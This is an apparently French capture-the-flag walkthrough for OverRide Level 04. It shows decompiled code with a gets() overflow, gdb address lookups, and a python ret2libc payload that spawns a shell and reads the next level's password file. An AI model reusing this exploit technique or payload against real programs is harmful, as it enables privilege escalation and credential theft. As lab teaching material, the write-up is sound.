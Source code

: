 # **Level 04**

Code decompiler,

```
int __cdecl main(int argc, const char **argv, const char **envp)
{
  int stat_loc; // [esp+1Ch] [ebp-9Ch] BYREF
  char s[128]; // [esp+20h] [ebp-98h] BYREF
  int v6; // [esp+A0h] [ebp-18h]
  int v7; // [esp+A4h] [ebp-14h]
  int v8; // [esp+A8h] [ebp-10h]
  __pid_t v9; // [esp+ACh] [ebp-Ch]

  v9 = fork();
  memset(s, 0, sizeof(s));
  v8 = 0;
  stat_loc = 0;
  if ( v9 )
  {
    do
    {
      wait(&stat_loc);
      v6 = stat_loc;
      if ( (stat_loc & 0x7F) == 0 || (v7 = stat_loc, (char)((stat_loc & 0x7F) + 1) >> 1 > 0) )
      {
        puts("child is exiting...");
        return 0;
      }
      v8 = ptrace(PTRACE_PEEKUSER, v9, 44, 0);
    }
    while ( v8 != 11 );
    puts("no exec() for you");
    kill(v9, 9);
  }
  else
  {
    prctl(1, 1);
    ptrace(PTRACE_TRACEME, 0, 0, 0);
    puts("Give me some shellcode, k");
    gets(s);
  }
  return 0;
}
```
On remaque en testant le code qe si on rentre dans notre input un `buffer` de `156` characteres, le `child` ne se `quitte pas correctement`,
Essayons donc de faire de nouveau un `Ret2libc` mais depuis le `child`.

Pour executer correctement le child dans gdb et pouvoir recuperer les differentes adresses que l'ont a besoin pour l'exploit,
nous devons utiliser l'option de gdb, `set follow-fork-mode child`

Puis de nouveau on doit recuperer les adress de system et "/bin/sh",
```
level04@OverRide:~$ gdb ./level04 
GNU gdb (Ubuntu/Linaro 7.4-2012.04-0ubuntu2.1) 7.4-2012.04
Copyright (C) 2012 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.  Type "show copying"
and "show warranty" for details.
This GDB was configured as "x86_64-linux-gnu".
For bug reporting instructions, please see:
<http://bugs.launchpad.net/gdb-linaro/>...
Reading symbols from /home/users/level04/level04...(no debugging symbols found)...done.
(gdb) set follow-fork-mode child
(gdb) b main
Breakpoint 1 at 0x80486cd
(gdb) run
Starting program: /home/users/level04/level04 

Breakpoint 1, 0x080486cd in main ()
(gdb) info func system
All functions matching regular expression "system":

Non-debugging symbols:
0xf7e6aed0  __libc_system
0xf7e6aed0  system
0xf7f48a50  svcerr_systemerr
(gdb) find __libc_start_main, +999999999, "/bin/sh"
0xf7f897ec
warning: Unable to access target memory at 0xf7fd3b74, halting search.
1 pattern found.
```
Payload -> [156 char] [addr system] [4 char] [addr "/bin/sh"]
`python -c "print '\x90'*156 + '\xd0\xae\xe6\xf7' + '\xd0\xae\xe6\xf7' + '\xec\x97\xf8\xf7'" > /var/crash/file`
```
level04@OverRide:~$ python -c "print '\x90'*156 + '\xd0\xae\xe6\xf7' + 'AAAA' + '\xec\x97\xf8\xf7'" > /var/crash/file
level04@OverRide:~$ cat /var/crash/file - | ./level04 
Give me some shellcode, k
id
uid=1004(level04) gid=1004(level04) euid=1005(level05) egid=100(users) groups=1005(level05),100(users),1004(level04)
cat /home/users/level05/.pass
3v8QLcN5SAhPaZZfEasfmXdwyR59ktDEMAwHF3aN
```
> ### NEXT : [Level 05](/level05/walkthrough.md)
